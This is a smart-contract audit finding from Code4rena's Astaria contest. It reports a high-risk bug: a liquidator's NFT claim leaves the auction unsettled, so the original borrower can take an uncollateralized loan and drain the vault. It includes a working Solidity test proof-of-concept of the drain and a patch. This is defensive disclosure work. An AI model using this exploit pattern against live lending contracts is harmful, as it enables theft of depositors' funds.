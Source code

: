 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-05

# [Vault may be drained after a liquidated NFT was claimed by the liquidator](https://github.com/code-423n4/2023-01-astaria-findings/issues/480) 

# Lines of code

https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/ClearingHouse.sol#L220-L231


# Vulnerability details

## Impact
The owner of a collateral NFT that was liquidated and then claimed by the liquidator (after the auction had no bids) may drain the vault the loan was taken from.
## Proof of Concept
There's an extreme situation when a liquidated and auctioned collateral NFT had no bids and the auction has expired. In this situation, the liquidator may claim the NFT by calling [CollateralToken.liquidatorNFTClaim](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/CollateralToken.sol#L109). The function:
1. calls [ClearingHouse.settleLiquidatorNFTClaim](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/ClearingHouse.sol#L220) to burn the lien token associated with the loan and clean up the accounting without repaying the actual loan (the loan cannot be repaid since there were no bids);
1. [releases the collateral NFT to the liquidator](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/CollateralToken.sol#L352).

However, the function doesn't settle the auction. As a result:
1. the `CollateralToken` is not burned ([CollateralToken.sol#L538](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/CollateralToken.sol#L538));
1. the link between the collateral ID and the underlying token is not removed ([CollateralToken.sol#L537](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/CollateralToken.sol#L537));
1. the link between the collateral ID and the auction is also not removed ([CollateralToken.sol#L544](https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/CollateralToken.sol#L544)).

This allows the owner of the liquidated collateral NFT to create a new lien and take the maximal loan without providing any collateral.

### Exploit Scenario
1. Alice deposits an NFT token as a collateral and takes a loan.
1. Alice's loan expires and her NFT collateral gets liquidated by Bob.
1. The collateral NFT wasn't sold off auction as there were no bids.
1. Bob claims the collateral NFT and receives it.
1. Alice takes another loan from the vault without providing any collateral.

The following PoC demonstrates the above scenario:
```solidity
// src/test/AstariaTest.t.sol
function testAuctionEndNoBidsMismanagement_AUDIT() public {
  address bob = address(2);
  TestNFT nft = new TestNFT(6);
  uint256 tokenId = uint256(5);
  address tokenContract = address(nft);

  // Creating a public vault and providing some liquidity.
  address publicVault = _createPublicVault({
    strategist: strategistOne,
    delegate: strategistTwo,
    epochLength: 14 days
  });

  _lendToVault(Lender({addr: bob, amountToLend: 150 ether}), publicVault);
  (, ILienToken.Stack[] memory stack) = _commitToLien({
    vault: publicVault,
    strategist: strategistOne,
    strategistPK: strategistOnePK,
    tokenContract: tokenContract,
    tokenId: tokenId,
    lienDetails: blueChipDetails,
    amount: 100 ether,
    isFirstLien: true
  });

  uint256 collateralId = tokenContract.computeId(tokenId);
  vm.warp(block.timestamp + 11 days);

  // Liquidator liquidates the loan after expiration.
  address liquidator = address(0x123);
  vm.prank(liquidator);
  OrderParameters memory listedOrder = ASTARIA_ROUTER.liquidate(
    stack,
    uint8(0)
  );

  // Skipping the auction duration and making no bids.
  skip(4 days);

  // Liquidator claims the liquidated NFT.
  vm.prank(liquidator);
  COLLATERAL_TOKEN.liquidatorNFTClaim(listedOrder);
  PublicVault(publicVault).processEpoch();

  // Liquidator is the rightful owner of the collateral NFT.
  assertEq(nft.ownerOf(tokenId), address(liquidator));

  // Since the auction wasn't fully settled, the CollateralToken still exists for the collateral NFT.
  // The borrower is the owner of the CollateralToken.
  assertEq(COLLATERAL_TOKEN.ownerOf(collateralId), address(this));

  // WETH balances at this moment:
  // 1. the borrower keep holding the 100 ETH it borrowed earlier;
  // 2. the vault keeps holding 50 ETH of liquidity.
  assertEq(WETH9.balanceOf(address(this)), 100 ether);
  assertEq(WETH9.balanceOf(address(publicVault)), 50 ether);

  // The borrower creates another lien. This time, the borrower is not the owner of the collateral NFT.
  // However, it's still the owner of the CollateralToken.
  (, stack) = _commitToLien({
    vault: publicVault,
    strategist: strategistOne,
    strategistPK: strategistOnePK,
    tokenContract: tokenContract,
    tokenId: tokenId,
    lienDetails: blueChipDetails,
    amount: 50 ether,
    isFirstLien: true
  });

  // The borrower has taken a loan of 50 ETH from the vault.
  assertEq(WETH9.balanceOf(address(this)), 150 ether);
  // The vault was drained.
  assertEq(WETH9.balanceOf(address(publicVault)), 0 ether);
}
```
## Tools Used
Manual review
## Recommended Mitigation Steps
Consider settling the auction at the end of `settleLiquidatorNFTClaim`:
```diff
diff --git a/src/ClearingHouse.sol b/src/ClearingHouse.sol
index 5c2a400..d4ee28d 100644
--- a/src/ClearingHouse.sol
+++ b/src/ClearingHouse.sol
@@ -228,5 +228,7 @@ contract ClearingHouse is AmountDeriver, Clone, IERC1155, IERC721Receiver {
       0,
       s.auctionStack.stack
     );
+    uint256 collateralId = _getArgUint256(21);
+    ASTARIA_ROUTER.COLLATERAL_TOKEN().settleAuction(collateralId);
   }
 }
```
